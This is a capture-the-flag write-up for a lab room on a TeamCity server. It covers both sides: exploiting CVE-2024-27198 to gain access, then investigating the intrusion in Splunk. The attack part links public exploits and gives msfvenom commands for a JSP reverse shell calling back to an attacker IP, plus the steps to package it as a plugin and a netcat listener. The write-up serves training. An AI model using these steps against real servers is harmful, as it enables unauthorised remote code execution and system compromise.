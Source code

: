 
**CTF**: [Brains](https://tryhackme.com/r/room/brains) - Easy

**Table of Contents**
- [RED](#red)
  - [Reconnaissance](#reconnaissance)
    - [TeamCity](#teamcity)
  - [Exploitation](#exploitation)
  - [Escalation](#escalation)
- [BLUE](#blue)
    - [1. What is the name of the backdoor user which was created on the server after exploitation?](#1-what-is-the-name-of-the-backdoor-user-which-was-created-on-the-server-after-exploitation)
    - [2. What is the name of the malicious-looking package installed on the server?](#2-what-is-the-name-of-the-malicious-looking-package-installed-on-the-server)
    - [3. What is the name of the plugin installed on the server after successful exploitation?](#3-what-is-the-name-of-the-plugin-installed-on-the-server-after-successful-exploitation)

# RED

## Reconnaissance
See what is running: `nmap $IP` and `nmap -p 22,80,50000 -sV $IP`
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
50000/tcp open  ibm-db2?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Website on port `80` is basically empty.

### TeamCity

Nmap couldn't recognize the service running on port `50000`, after accessing we get into **TeamCity** 
(JetBrains) login page, which is a CI/CD tool, we can see that the version is `2023.11.3`. 

<img src="./red/Cattura3.PNG"/>

Searching for known exploits we can find [CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198) 
that is an authentication bypass vulnerability for TeamCity	<= 2023.11.3.
There are two exploits available, discovered the second exploit later, after I had already gained a web shell; the second exploit automates this process.
- [Auth Bypass](https://github.com/yoryio/CVE-2024-27198)
- [Auth Bypass + RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE)

> IMPORTANT: The following section will cover the manual exploitation to get the Web Shell. 

Using the first exploit we can create the new user:

<img src="./red/Cattura5.PNG"/>

Then I changed the password for `administrator` user under **Administration** -> **Users** -> **administrator**, 
as you can see below; even if this wasn't necessary, this is something I would look out for.

<img src="./red/Cattura9.PNG"/>

## Exploitation

While exploring the **Administration** dashboard we can see, at the bottom of the lateral panel the **Plugins** 
section.
<!--

that looks as follows:

<img src="./red/Cattura18.PNG"/>
-->
I supposed we could upload a jar/jsp reverse shell as a plugin so I created one with `msfvenom`:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp
```

I tried to upload it; however, it required a ZIP file; so I added it to a zip folder, still got error...
At this point, I decided to reference the [Plugins Packaging](https://plugins.jetbrains.com/docs/teamcity/plugins-packaging.html) 
documentation for TeamCity, there is what the zip folder should contain:
```
|- server
|    - shell.jar
|      - buildServerResources
|        - shell.jsp
|- teamcity-plugin.xml
```

So the steps to get the Web Shell from the **Plugins** page are: 
1. (*Done*) Create `shell.jsp`: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.8.28.226 LPORT=4444 -f raw > shell.jsp`

2. Create `teamcity-plugin.xml`:
```
<?xml version="1.0" encoding="UTF-8"?>
<teamcity-plugin xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:noNamespaceSchemaLocation="urn:schemas-jetbrains-com:teamcity-plugin-v1-xml">
    <info>
        <name>shell</name>
        <display-name>shell</display-name>
        <description>a very useful plugin</description>
        <version>1.0</version>
        <vendor>
            <name>deez</name>
            <url>http://jomama.gov</url>
        </vendor>
    </info>
    <deployment use-separate-classloader="true" node-responsibilities-aware="true"/>
</teamcity-plugin>
```

1. Create `shell.jar`: `mkdir buildServerResources && mv shell.jsp buildServerResources/ && zip -r shell.jar buildServerResources/ && rm -fr buildServerResources/`

2. Zip shell folder: `zip -r shell.zip teamcity-plugin.xml shell.jar`

3. `nc -lnvp 4444` on Attacker Machine and we can then access `http://$IP:50000/plugins/shell/shell.jsp` to run the shell.

<img src="./red/Cattura26.PNG"/>

## Escalation

Actually, there isn’t much left to do after gaining the web shell; we can just go into the home and get `flag.txt` content:

<img src="./red/Cattura27.PNG"/>

**BONUS**: even if not required, try to get root. (it couldn't be easier)

# BLUE

> Disclaimer: I've never used Splunk before this CTF.

<img src="./blue/Cattura7.PNG"/>

### 1. What is the name of the backdoor user which was created on the server after exploitation?

There are various ways to create a backdoor on a machine, but the question gives us a hint: it is a new user; so we can create a table with the filter `* source="/var/log/auth.log"`, there, by hovering on "name" field, we can see the user: [REDACTED].

<img src="./blue/Cattura4.PNG"/>

### 2. What is the name of the malicious-looking package installed on the server?

This one took me some time, we know that we want to look for packages installed in the `dpkg.log`, however there are more than 3000 entries. 

To make the search easier I wanted to extract a list of the installed packages, so I asked GPT if there was a way to do it in Splunk, and it came up with the following filter: `source="/var/log/dpkg.log" "install" | sort _time | rex field=_raw "install (?<package_name>\S+)" | table package_name`; the package [REDACTED] looks like something malicious.

<img src="./blue/Cattura10.PNG"/>

<img src="./blue/Cattura11.PNG"/>

### 3. What is the name of the plugin installed on the server after successful exploitation?

To answer this question we need to dig into TeamCity logs since there we can find any activity related to plugin installation; we can create a table using the following filter: `* source="/opt/teamcity/TeamCity/logs/teamcity-activities.log"`

```
[2024-07-04 22:08:31,921]   INFO - s.buildServer.ACTIVITIES.AUDIT - plugin_uploaded: Plugin "AyzzbuXY" was updated by "user with id=11" with comment "Plugin was uploaded to /home/ubuntu/.BuildServer/plugins/AyzzbuXY.zip"
```

The malicious plugin name is [REDACTED].

<img src="./blue/Cattura2.PNG"/>









